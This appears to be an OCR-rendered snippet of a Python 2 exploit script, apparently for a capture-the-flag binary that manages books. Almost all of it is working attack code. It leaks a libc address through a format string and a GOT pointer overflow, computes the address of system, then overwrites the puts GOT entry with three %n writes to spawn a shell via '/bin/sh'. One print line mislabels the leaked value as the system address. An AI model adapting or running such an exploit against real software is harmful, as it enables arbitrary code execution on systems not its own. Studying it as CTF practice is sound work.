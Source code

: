 ```
deleteBook(1)
deleteBook(2)
deleteBook(3)
deleteBook(4)
deleteBook(5)
deleteBook(6)
deleteBook(7)
deleteBook(8)
deleteBook(9)
deleteBook(10)
deleteBook(11)
deleteBook(12)
deleteBook(13)
deleteBook(14)


# This is the initial overflow of a pointer with the got address of `puts` to get the libc infoleak
addBookSpc(50, 5, "15935728"*1 + p64(0x602028) + "z"*8 + "%7$lx.")

# Display all of the books, to get the libc infoleak
target.sendline('3')

# Filter out the infoleak
print target.recvuntil('{')
print target.recvuntil('{')
print target.recvuntil('{')
print target.recvuntil('{')

print target.recvuntil("\"name\": \"")

leak = target.recvuntil("\"")
leak = leak.replace("\"", "")
print "leak is: " + str(leak)
leak = u64(leak + "\x00"*(8 - len(leak)))

# Subtract the offset to system from puts from the infoleak, to get the libc address of system
libcBase = leak - libc.symbols['puts']
system = libcBase + libc.symbols['system']

print "system address: " + hex(leak)

# do a bit of binary math to get the
part0 = str(system & 0xffff)
part1 = str(((system & 0xffff0000) >> 16))
part2 = str(((system & 0xffff00000000) >> 32))

print "part 0: " + hex(int(part0))
print "part 1: " + hex(int(part1))
print "part 2: " + hex(int(part2))


# Add the three books to do the format string
# We need the 0x602028 address still to not cause a segfault when it prints
# the got address we are trying to overwrite is at 0x602018

addBookSpc("50", "5", p64(0x60201a) + p64(0x602028) + "z"*8 + "%" + part1 + "x%7$n")
addBookSpc("50", "5", p64(0x602018) + p64(0x602028) + "z"*8 + "%" + part0 + "x%7$n")
addBookSpc("50", "5", p64(0x60201c) + p64(0x602028) + "z"*8 + "%" + part2 + "x%7$n")

# Print the books to execute the format string write
target.sendline('3')

# Free the book with "/bin/sh" to pass a pointer to "/bin/sh" to system
```